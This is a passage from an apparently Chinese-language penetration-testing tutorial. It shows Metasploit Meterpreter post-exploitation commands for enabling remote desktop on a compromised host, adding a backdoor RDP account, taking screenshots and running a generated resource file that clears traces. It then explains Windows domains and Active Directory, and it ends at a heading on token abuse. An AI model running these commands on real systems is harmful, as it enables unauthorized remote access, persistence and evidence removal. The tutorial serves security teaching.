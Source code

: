 连接远程桌面

```
rdesktop +ip地址

```

msf会自动生成一个资源文件，控制完成后可以运行次资源文件，使得记录清除，关闭远程桌面服务。

```
run multi_console_command -rc +生成的文件路径

```

##### <a id="_198"/>使用已存脚本

开启远程桌面服务

```
 run getgui –e 

```

添加远程桌面用户和密码

```
 run getgui -u yuanfh -p pass 

```

#### <a id="_209"/>抓取屏幕

```
 screenshot 

```

或者使用插件

```
load espia  //加载插件
screengrab //截取屏幕

```

#### <a id="_221"/>域环境搭建

##### <a id="_222"/>有关域

域就是将多台计算机在逻辑上组织到一起，进行集中管理，也就是创建在域控制器上的组，将组的账户信息保存在活动目录中。域组可以用来控制域内任何一台计算机资源的访问和执行系统任务的权限。<br/>
在微软的世界中，一个域是由一个或多个域控制器(domain controller)来控制的（其实域控制器并不神秘，无非就是装了一些特别软件的电脑）。其他的电脑加入该域，就要接受域控制器的控制。域控制器中有两个重要的表，一个是加入该域的电脑的列表，另一个表用来保存叫做活动目录(Active Directory)的东西。<br/>
活动目录就是你登录公司网络的帐户。活动目录中存储着你的权限。你在某台电脑上登录，你键入用户名和密码，你的电脑首先要把你的登录信息发送到域控制器，域控制器首先核实你的登录信息是否正确，然后把一个叫access key的东西返还给你登录的电脑。这个access key中就包含着你的权限，由它来决定你是否可以安装软件，或者使用打印机等等。<br/>
<img src="https://img-blog.csdnimg.cn/20200721182934863.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

[参考链接](https://blog.csdn.net/lolichan/article/details/84924050)

##### <a id="Token_229"/>Token利用
